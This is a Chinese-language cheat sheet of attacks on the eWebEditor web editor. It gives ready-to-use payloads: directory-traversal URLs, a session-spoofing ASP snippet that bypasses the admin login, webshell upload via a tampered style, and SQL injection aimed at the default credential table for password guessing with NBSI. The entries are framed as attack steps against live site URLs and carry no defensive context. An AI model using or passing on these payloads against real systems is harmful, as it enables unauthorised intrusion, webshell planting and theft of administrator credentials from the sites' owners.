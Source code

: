 ### eWebEditor 可下载数据库，但密文解不开

脆弱描述：
当我们下载数据库后查询不到密码MD5的明文时，可以去看看webeditor_style(14)这个样式表，看看是否有前辈入侵过 或许已经赋予了某控件上传脚本的能力，构造地址来上传我们自己的WEBSHELL.
攻击利用:
比如 ID=46 s-name =standard1
构造 代码: ewebeditor.asp?id=content&style=standard
ID和和样式名改过后
ewebeditor.asp?id=46&style=standard1

### eWebEditor遍历目录漏洞

脆弱描述：
ewebeditor/admin_uploadfile.asp
admin/upload.asp
过滤不严，造成遍历目录漏洞
攻击利用:
第一种:ewebeditor/admin_uploadfile.asp?id=14
在id=14后面添加&dir=..
再加 &dir=../..
&dir=[http://navisec.it/../](http://navisec.it/../).. 看到整个网站文件了
第二种: ewebeditor/admin/upload.asp?id=16&d_viewmode=&dir =./..

### eWebEditor 5.2 列目录漏洞

脆弱描述：
ewebeditor/asp/browse.asp
过滤不严，造成遍历目录漏洞
攻击利用：
[http://navisec.it/ewebeditor/asp/browse.asp?style=standard650&dir=…././/](http://navisec.it/ewebeditor/asp/browse.asp?style=standard650&dir=…././/)..

### 利用eWebEditor session欺骗漏洞,进入后台

脆弱描述：
漏洞文件:Admin_Private.asp
只判断了session，没有判断cookies和路径的验证问题。
攻击利用:
新建一个test.asp内容如下:
<%Session(“eWebEditor_User”) = “11111111”%>
访问test.asp，再访问后台任何文件，for example:Admin_Default.asp

### eWebEditor asp版 2.1.6 上传漏洞

攻击利用:（请修改action字段为指定网址）
ewebeditor asp版2.1.6上传漏洞利用程序.html

### eWebEditor 2.7.0 注入漏洞

攻击利用:
[http://navisec.it/ewebeditor/ewebeditor.asp?id=article_content&style=full_v200](http://navisec.it/ewebeditor/ewebeditor.asp?id=article_content&style=full_v200)
默认表名：eWebEditor_System默认列名：sys_UserName、sys_UserPass，然后利用nbsi进行猜解.
